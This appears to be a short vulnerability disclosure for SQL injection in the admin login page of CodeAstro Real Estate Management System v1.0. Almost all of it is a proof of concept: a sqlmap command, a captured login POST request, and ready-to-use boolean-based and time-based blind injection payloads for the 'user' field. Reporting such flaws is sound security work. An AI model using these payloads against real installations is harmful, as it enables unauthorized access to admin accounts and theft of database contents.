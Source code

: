 # SQLi vulnerability in CodeAstro Real Estate Management System v1.0 of file /admin/index.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /admin/index.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```
POST /admin/ HTTP/1.1
Host: www.realestate.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Origin: http://www.realestate.com
Cookie: PHPSESSID=d4bb5bt4089bi920s8gj8fb0np
Content-Type: application/x-www-form-urlencoded
Referer: http://www.realestate.com/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Content-Length: 36

user=admin&pass=codeastro.com&login=
```





```
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: user=admin' AND 5594=(SELECT (CASE WHEN (5594=5594) THEN 5594 ELSE (SELECT 4066 UNION SELECT 2434) END))-- bXYR&pass=codeastro.com&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=admin' AND (SELECT 9190 FROM (SELECT(SLEEP(5)))ELXO)-- zDli&pass=codeastro.com&login=
---
```



![image-20250602123658340](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506021236537.png)